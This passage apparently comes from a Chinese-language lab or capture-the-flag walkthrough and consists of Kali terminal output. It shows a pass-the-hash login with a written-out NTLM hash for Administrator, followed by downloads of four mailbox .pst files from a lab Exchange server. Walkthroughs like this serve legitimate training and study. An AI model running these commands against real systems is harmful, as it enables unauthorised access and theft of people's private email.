 下载所有 `.pst` 邮件：

```
┌──(root㉿kali)-[/home/kali]
└─# proxychains4 -q cme smb XIAORANG-EXC01.xiaorang.lab -u Administrator -H 7acbc09a6c0efd81bfa7d5a1d4238beb --get-file '\\Users\\Public\\Administrator.pst' /home/kali/Administrator.pst
SMB         XIAORANG-EXC01.xiaorang.lab 445    XIAORANG-EXC01   [*] Windows Server 2016 Datacenter 14393 x64 (name:XIAORANG-EXC01) (domain:xiaorang.lab) (signing:True) (SMBv1:True)
SMB         XIAORANG-EXC01.xiaorang.lab 445    XIAORANG-EXC01   [+] xiaorang.lab\Administrator:7acbc09a6c0efd81bfa7d5a1d4238beb (Pwn3d!)
SMB         XIAORANG-EXC01.xiaorang.lab 445    XIAORANG-EXC01   [*] Copying \\Users\\Public\\Administrator.pst to /home/kali/Administrator.pst
SMB         XIAORANG-EXC01.xiaorang.lab 445    XIAORANG-EXC01   [+] File \\Users\\Public\\Administrator.pst was transferred to /home/kali/Administrator.pst

┌──(root㉿kali)-[/home/kali]
└─# proxychains4 -q cme smb XIAORANG-EXC01.xiaorang.lab -u Administrator -H 7acbc09a6c0efd81bfa7d5a1d4238beb --get-file '\\Users\\Public\\Lumia.pst' /home/kali/Lumia.pst
SMB         XIAORANG-EXC01.xiaorang.lab 445    XIAORANG-EXC01   [*] Windows Server 2016 Datacenter 14393 x64 (name:XIAORANG-EXC01) (domain:xiaorang.lab) (signing:True) (SMBv1:True)
SMB         XIAORANG-EXC01.xiaorang.lab 445    XIAORANG-EXC01   [+] xiaorang.lab\Administrator:7acbc09a6c0efd81bfa7d5a1d4238beb (Pwn3d!)
SMB         XIAORANG-EXC01.xiaorang.lab 445    XIAORANG-EXC01   [*] Copying \\Users\\Public\\Lumia.pst to /home/kali/Lumia.pst
SMB         XIAORANG-EXC01.xiaorang.lab 445    XIAORANG-EXC01   [+] File \\Users\\Public\\Lumia.pst was transferred to /home/kali/Lumia.pst

┌──(root㉿kali)-[/home/kali]
└─# proxychains4 -q cme smb XIAORANG-EXC01.xiaorang.lab -u Administrator -H 7acbc09a6c0efd81bfa7d5a1d4238beb --get-file '\\Users\\Public\\Zhangtong.pst' '/home/kali/Zhangtong.pst'
SMB         XIAORANG-EXC01.xiaorang.lab 445    XIAORANG-EXC01   [*] Windows Server 2016 Datacenter 14393 x64 (name:XIAORANG-EXC01) (domain:xiaorang.lab) (signing:True) (SMBv1:True)
SMB         XIAORANG-EXC01.xiaorang.lab 445    XIAORANG-EXC01   [+] xiaorang.lab\Administrator:7acbc09a6c0efd81bfa7d5a1d4238beb (Pwn3d!)
SMB         XIAORANG-EXC01.xiaorang.lab 445    XIAORANG-EXC01   [*] Copying \\Users\\Public\\Zhangtong.pst to /home/kali/Zhangtong.pst
SMB         XIAORANG-EXC01.xiaorang.lab 445    XIAORANG-EXC01   [+] File \\Users\\Public\\Zhangtong.pst was transferred to /home/kali/Zhangtong.pst

┌──(root㉿kali)-[/home/kali]
└─# proxychains4 -q cme smb XIAORANG-EXC01.xiaorang.lab -u Administrator -H 7acbc09a6c0efd81bfa7d5a1d4238beb --get-file '\\Users\\Public\\DiscoverySearchMailbox {D919BA05-46A6-415f-80AD-7E09334BB852}.pst' '/home/kali/DiscoverySearchMailbox {D919BA05-46A6-415f-80AD-7E09334BB852}.pst'
SMB         XIAORANG-EXC01.xiaorang.lab 445    XIAORANG-EXC01   [*] Windows Server 2016 Datacenter 14393 x64 (name:XIAORANG-EXC01) (domain:xiaorang.lab) (signing:True) (SMBv1:True)
SMB         XIAORANG-EXC01.xiaorang.lab 445    XIAORANG-EXC01   [+] xiaorang.lab\Administrator:7acbc09a6c0efd81bfa7d5a1d4238beb (Pwn3d!)
SMB         XIAORANG-EXC01.xiaorang.lab 445    XIAORANG-EXC01   [*] Copying \\Users\\Public\\DiscoverySearchMailbox {D919BA05-46A6-415f-80AD-7E09334BB852}.pst to /home/kali/DiscoverySearchMailbox {D919BA05-46A6-415f-80AD-7E09334BB852}.pst
SMB         XIAORANG-EXC01.xiaorang.lab 445    XIAORANG-EXC01   [+] File \\Users\\Public\\DiscoverySearchMailbox {D919BA05-46A6-415f-80AD-7E09334BB852}.pst was transferred to /home/kali/DiscoverySearchMailbox {D919BA05-46A6-415f-80AD-7E09334BB852}.pst

```
